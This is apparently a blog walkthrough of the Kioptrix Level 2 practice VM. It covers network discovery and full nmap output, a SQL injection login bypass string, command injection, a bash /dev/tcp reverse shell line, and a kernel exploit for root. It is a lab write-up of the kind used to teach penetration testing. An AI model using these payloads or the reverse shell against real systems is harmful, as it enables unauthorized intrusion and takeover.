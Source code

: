 ```yaml
---
layout: post
title: "vulhub-Kioptrix Level 2"
date: 2016-06-07 15:56:48 -0500
comments: true
categories: [vulhub, sql injection]
---
```


###Tools:

* netdiscover
* Nmap
* zap
* netcat


<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kioptrix2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.183 is the target.


Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.183 -p-`

Opening ports: 22, 111, 139, 80, 443, 1024.

```
Starting Nmap 7.12 ( https://nmap.org ) at 2016-06-07 16:07 CDT
NSE: Loaded 138 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:07
Completed NSE at 16:07, 0.00s elapsed
Initiating NSE at 16:07
Completed NSE at 16:07, 0.00s elapsed
Initiating ARP Ping Scan at 16:07
Scanning 192.168.79.183 [1 port]
Completed ARP Ping Scan at 16:07, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:07
Completed Parallel DNS resolution of 1 host. at 16:08, 13.00s elapsed
Initiating SYN Stealth Scan at 16:08
Scanning 192.168.79.183 [65535 ports]
Discovered open port 443/tcp on 192.168.79.183
Discovered open port 3306/tcp on 192.168.79.183
Discovered open port 111/tcp on 192.168.79.183
Discovered open port 22/tcp on 192.168.79.183
Discovered open port 80/tcp on 192.168.79.183
Discovered open port 666/tcp on 192.168.79.183
Discovered open port 631/tcp on 192.168.79.183
Completed SYN Stealth Scan at 16:08, 3.99s elapsed (65535 total ports)
Initiating Service scan at 16:08
Scanning 7 services on 192.168.79.183
Completed Service scan at 16:08, 16.01s elapsed (7 services on 1 host)
Initiating OS detection (try #1) against 192.168.79.183
NSE: Script scanning 192.168.79.183.
Initiating NSE at 16:08
Completed NSE at 16:08, 2.14s elapsed
Initiating NSE at 16:08
Completed NSE at 16:08, 0.00s elapsed
Nmap scan report for 192.168.79.183
Host is up (0.00052s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            663/udp  status
|_  100024  1            666/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de 29f9 fbfb 2eb2 beaf e624 3157 090f
|_SHA-1: 560c 9196 6506 fb0f fb81 66b1 ded3 ac11 2ed4 808a
|_ssl-date: 2016-06-07T17:59:07+00:00; -3h09m26s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
666/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:55:D2:EE (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.018 days (since Tue Jun  7 15:42:38 2016)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=201 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 192.168.79.183

NSE: Script Post-scanning.
Initiating NSE at 16:08
Completed NSE at 16:08, 0.00s elapsed
Initiating NSE at 16:08
Completed NSE at 16:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.28 seconds
           Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB)

```

Use Nikto to scan  the web service.

{% img  /images/blog/vulhub/kioptrix2/Selection_004.png   [title manually exploit [alt text]] %}


not so excited.


check the webpage:

{% img  /images/blog/vulhub/kioptrix2/Selection_002.png   [title manually exploit [alt text]] %}


may contain SQL injection. Use zap to scan:


{% img  /images/blog/vulhub/kioptrix2/Selection_003.png   [title manually exploit [alt text]] %}


Finally try username as `test`, password `test' or '1'=1'` can bypass the login.

{% img  /images/blog/vulhub/kioptrix2/Selection_005.png   [title manually exploit [alt text]] %}



Now I am looking for command injection:

try:

{% img  /images/blog/vulhub/kioptrix2/Selection_006.png   [title manually exploit [alt text]] %}


get:

{% img  /images/blog/vulhub/kioptrix2/Selection_007.png   [title manually exploit [alt text]] %}

Okay. Now set up netcat on port 4444 and in the web console:

`/bin/bash -i > /dev/tcp/[yourip]/[port] 0<&1`


get the shell:

{% img  /images/blog/vulhub/kioptrix2/Selection_008.png   [title manually exploit [alt text]] %}


But not the root. Keep going...

After enumeration, I found the kernel version is 2.6.9. Now search the exploit


{% img  /images/blog/vulhub/kioptrix2/Selection_009.png   [title manually exploit [alt text]] %}


Find an interestig one. I tried other exploits too, but failed..

Upload it to the target, compile and run it. ROOT:

{% img  /images/blog/vulhub/kioptrix2/Selection_010.png   [title manually exploit [alt text]] %}


DONE
